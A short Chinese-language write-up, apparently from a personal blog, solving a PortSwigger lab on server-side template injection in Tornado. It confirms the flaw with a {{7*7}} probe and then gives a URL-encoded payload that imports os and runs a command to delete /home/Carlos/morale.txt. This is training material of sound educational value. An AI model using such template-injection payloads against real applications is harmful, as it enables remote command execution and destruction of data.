 实验提示，Tornado模板。

详细了解“首选名称”功能。



首选名称功能处，使用了对象引用的语法，可能存在模板注入

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/模板注入/images/C5792D8314E246A8B876ADE54E2BADA9clipboard.png)



payload:

```javascript
{{7*7}}
```



发现会在评论处的姓名中出现预想的49

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/模板注入/images/A292BBE457A540018053828A5ADC48A4clipboard.png)

说明存在ssti



采用命令执行删除Carlos/morale.txt

paylod:

```javascript
=user.name}}{`%`25+import+os+%25}{`{`os.system('rm%20/home/Carlos/morale.txt')
```

